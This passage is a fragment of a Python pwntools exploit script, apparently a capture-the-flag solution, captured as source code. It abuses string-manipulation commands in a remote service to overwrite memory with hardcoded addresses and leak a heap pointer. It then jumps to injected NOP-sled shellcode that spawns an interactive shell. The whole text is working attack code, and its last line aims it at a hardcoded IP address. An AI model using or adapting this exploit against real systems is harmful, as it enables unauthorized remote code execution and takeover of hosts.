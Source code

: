 ```
    data+=a
    data+="\" ";
    data+=str(b);
    writeline(data);
def varstr(a,b):
    data="var ";
    data+=a;
    data+=" = \"";
    data+=b;
    data+="\"";
    writeline(data);
def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    bss_end=0x0804D0B8;
    spo0=0x804AE82
    var_stack=0x0804D0B4;
    c_str=0x0804ae8b
    c_func=0x0804ae99
    varstr("shellcode","\x90"*100+asm(shellcraft.sh()))
    varstr("spo0","test")
    a="A" * 0x1a;
    b="B" * 0x1a;
    addstr(a,b);
    varstr("spo0","padding_padding_padding_");
    a=p32(spo0)+p32(c_str)+p32(var_stack)+"daaaeaaafaaa"+p32(bss_end)
    b=153391691
    mulstr(a,b);
    readall()
    readall()
    writeline("spo0");
    if ip!=0:
        readuntil("\n> ")
    heap=readuntil("\n");
    
    heap=u32(heap[:-1]);
    shellcode=heap+0x748+0x30
    varstr("bool","test")
    a="A" * 0x1a;
    b="B" * 0x1a;
    addstr(a,b);
    varstr("bool","padding_padding_padding_");
    a=p32(spo0)+p32(c_func)+p32(shellcode)+"daaaeaaafaaa"+p32(bss_end)
    b=153391691
    mulstr(a,b);
    writeline("bool");
    readall()
    io.interactive();
attack("54.223.84.142")
```
